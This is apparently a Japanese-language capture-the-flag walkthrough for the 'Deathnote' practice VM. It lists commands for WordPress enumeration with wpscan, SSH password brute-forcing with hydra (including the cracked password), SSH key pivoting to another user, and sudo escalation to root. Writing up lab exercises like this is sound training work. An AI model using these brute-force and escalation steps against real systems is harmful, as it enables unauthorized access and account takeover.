 ### ポートスキャンまで同じ
- 22, 80

### Webサイトを見る
- IPアドレスでサイトを見るとdeathnote.vulnにリダイレクトされるので、以下のように書き換える
-  /etc/hostsを書き換える
  - `192.168.56.115  deathnote.vuln`
- wordpressで作られているのがわかる

### wpscan
- `wpscan --url http://deathnote.vuln/wordpress/`
- もしエラー出たら、updateなので一度ネットにつなげて更新する
- `http://192.168.56.115/wordpress/wp-content/uploads`

### 興味深いURLにアクセスする
- `wget http://deathnote.vuln/wordpress/wp-content/uploads/2021/07/notes.txt`
- `wget http://deathnote.vuln/wordpress/wp-content/uploads/2021/07/user.txt`

### WordPressのユーザを列挙する
- `wpscan --url http://deathnote.vuln/wordpress/ --enumerate u`

## 攻略２
### Gobuster
- 特に何も見つからない,robots.txtくらい

### 画像ファイルを分析
- `robots.txt`に画像があるので、取得して中身を見る
- `wget http://deathnote.vuln/important.jpg`
- ファイルの中身を確認する
  - `file important.jpg`
- `cat important.jpg`
- ヒントがある

### Hydra
- 次のコマンドでsshのパスワードを見つけるが、時間が長すぎるので違うのを使う
  - `hydra -L user.txt -P notes.txt ssh://$IP -t 4`
- 名前を`l`で探す
  - `hydra -l l -P notes.txt ssh://$IP -t 4`
  - `death4me`

### ssh
- 得られた認証情報を使って、sshにアクセスする
- `ssh l@$IP`

### sudoを調べる
- `sudo -l`
- 特に何も見つからない

### lでシステム内を探索する
- kiraユーザになるために.sshディレクトリを検索する
- `cd /home/kira/.ssh`
- `cat authorized_keys`
  - これはlからkiraにアクセスできる公開鍵になっている
- 実際にlに暗号鍵があるか見てみる

### sshで公開鍵認証
- lで接続している状態で次のコマンドをする
- `ssh kira@localhost`



### Base64でデコードする
- kiraのhomeにBase64でデコードされた暗号がある

### kiraでシステム内の探索
- /optディレクトリに怪しいディレクトリがある
- どこかに、`case.wav`があるので、サイトのCyberChefでキーワードがデコードされる
  - `from hex`を利用する
  - base64っぽいので、デコードする 


### sudoの確認
- `sudo -l`
- kiraは全知全能であることがわかる
### ルートシェルを奪取してフラグファイルを開く
- `sudo su`
- `cd root`
- `cat root.txt`
